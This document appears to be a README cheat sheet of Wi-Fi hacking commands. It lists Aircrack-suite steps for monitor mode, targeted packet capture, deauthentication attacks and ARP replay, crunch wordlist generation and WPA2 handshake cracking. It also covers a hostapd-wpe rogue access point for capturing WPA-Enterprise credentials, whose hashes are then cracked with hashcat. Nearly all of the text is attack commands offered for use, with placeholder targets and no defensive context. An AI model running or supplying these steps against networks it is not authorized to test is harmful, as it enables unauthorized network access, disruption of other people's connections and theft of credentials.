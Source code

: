 # Wifi_hacking Commands
iwconfig
[call airmon-ng wireless interface]

ifconfig wlan0 up/down
[change network]

airmon-ng check kill
[kill wifi network]

iwconfig wlan0 mode monitor
[monitor mode]

service NetworkManager restart
[start network back]

airodump-ng wlan0
[monitor packets]

airodump-ng --bssid (enter bssid) --channel (CH) --write (name file) wlan0
[specifiy a single network for sniffing]

airmon-ng start (network name)
[to turn to monitor mode]

airmon-ng stop()
[stop mon mode]

aireplay-ng --deauth (set timer) -a (target BSSID) -c (target MAC) wlan0
[deauth attack]

aireplay-ng --arpreplay -b (target MAC with WPS) -h (wlan MAC address) wlan0
[assocaite with a network of less data]

sudo apt install crunch
Install crunch

crunch 6 8 abc -o test.txt -t (e.g Q@@@@U)
[add guess to crunch wordlist]

aircrack-ng (.cap) -w test.txt
[crack WPA2 using wordlist]

sudo NetworkManager start
[restart Machine's wireless interface]

apt-get install hostapd-wpe
[install hostapd-wpe]

nano /etc/hostapd-wpe/hostapd-wpe.conf
[configure file]

hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
[start hostapd in etc file part]

CTRL + F 
[search webpage info}

hashcat -m (mode NTLM) (hash_file.txt) (/file_path/wordlist.txt)
[crack WPA Enterprise against hash]

